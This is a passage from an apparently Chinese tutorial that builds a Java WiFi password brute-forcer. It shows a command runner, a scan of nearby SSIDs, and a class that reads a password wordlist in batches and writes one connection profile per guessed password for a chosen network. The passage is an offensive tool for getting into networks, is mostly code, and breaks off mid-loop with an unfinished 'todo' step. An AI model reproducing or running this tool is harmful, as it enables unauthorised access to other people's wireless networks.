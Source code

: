 ```
        String line = null;
        while ((line = bReader.readLine()) != null) {
            result.add(line);
        }
    } catch (IOException e) {
        e.printStackTrace();
    }
    return result;
}
```

然后扫描周围wifi信息，并返回相关信息

```
/**
 * 列出所有信号较好的ssid
 *
 * @return 所有ssid
 */
public static List<Ssid> listSsid() {
    List<Ssid> ssidList = new ArrayList<Ssid>();
    String cmd = Command.SHOW_NETWORKS;
    List<String> result = execute(cmd, null);
    if (result != null && result.size() > 0) {
        // todo 整合信息
    }
    return ssidList;
}
```

# 三、生成配置文件

OK，接下来我们就可以开始针对每个不同的SSID生成不同的配置文件了,生成文件整个过程就是根据每个不同的密码生成一个配置文件。大概代码如下

```
/**
 * 配置文件生成器
 */
public class ProfileGenerator {

    private String ssid = null;
    private String passwrodPath = null;
    private ExecutorService threadPool = Executors.newFixedThreadPool(4);

    public ProfileGenerator(String ssid, String passwrodPath) {
        this.ssid = ssid;
        this.passwrodPath = passwrodPath;
    }

    /**
     * 生成配置文件
     */
    public void genProfile() {
        List<String> passwordList = null;
        int counter = 0;
        outer:
        while (true) {
            int start = counter * Connector.BATH_SIZE;
            int end = (counter + 1) * Connector.BATH_SIZE - 1;
            passwordList = FileUtils.readLine(passwrodPath, start, end);
            if (passwordList != null && passwordList.size() > 0) {
                // 生成配置文件
                for (String password : passwordList) {
                    GenThread genThread = new GenThread(ssid, password);
```